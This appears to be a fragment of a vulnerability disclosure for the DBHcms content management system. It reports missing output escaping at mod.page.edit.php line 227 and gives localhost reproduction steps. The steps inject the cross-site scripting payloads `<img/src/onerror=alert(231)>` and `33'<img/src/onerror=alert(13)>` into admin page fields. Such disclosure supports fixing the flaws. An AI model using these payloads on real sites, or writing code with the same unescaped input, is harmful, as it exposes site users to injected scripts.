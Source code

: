 first login as admin user, then visit http://localhost:8089/index.php?dbhcms_pid=-21

at `Description` parameter filled `<img/src/onerror=alert(231)>` 

![](images/2019-07-25-16-08-58.png)

## [9]

there has no htmlspecialchars function for '$_POST['pageparam_insert_name']' variable in dbhcms\mod\mod.page.edit.php line 227

![](images/2019-07-25-16-17-45.png)

first login as admin user, then visit http://localhost:8089/index.php?dbhcms_pid=-12

at `Parameter:` parameter filled `33'<img/src/onerror=alert(13)>` 

![](images/2019-07-25-16-20-11.png)

![](images/2019-07-25-16-20-37.png)
